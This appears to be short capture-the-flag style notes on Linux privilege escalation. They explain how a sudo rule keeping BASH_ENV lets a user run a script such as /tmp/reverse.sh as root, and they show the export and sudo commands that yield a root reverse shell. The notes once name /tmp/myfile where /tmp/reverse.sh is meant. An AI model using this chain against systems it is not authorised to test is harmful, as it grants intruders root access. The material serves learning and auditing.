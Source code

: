 # Introduction

`BASH_ENV` is an **environment variable** that tells Bash to **source a file** when it starts in **non-interactive mode** (i.e., when it’s running a script, not a shell for a user).
In nutshell, its env variable that points to file that gets executed before every bash script.

If you got user and run `sudo -l` and found `env_keep`, like this
```sh
sudo -l                                                                                                                                                                        
Matching Defaults entries for hish on environment:                                                                                                                                                 
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty                                                      
User may run the following commands on environment:                                                                                                                                           
    (ALL) /usr/bin/systeminfo 
```

## When exactly is `BASH_ENV` used?
It is used **only** when:
- Bash is launched in **non-interactive** mode
- Bash is **not in login shell** mode
This typically happens when:
- You run `bash script.sh`
- Or a script starts with `#!/bin/bash`
- Or `sudo` runs a bash script like the one you saw: `/usr/bin/systeminfo`

```sh
export BASH_ENV=/tmp/reverse.sh
```

Now, every time a script runs with Bash, it will execute the contents of /tmp/myfile before the actual script.

And if you can run any script with sudo privileges then the `/tmp/reverse.sh` also will get executed as root
```sh
sudo systeminfo

# Got reverse shell
```
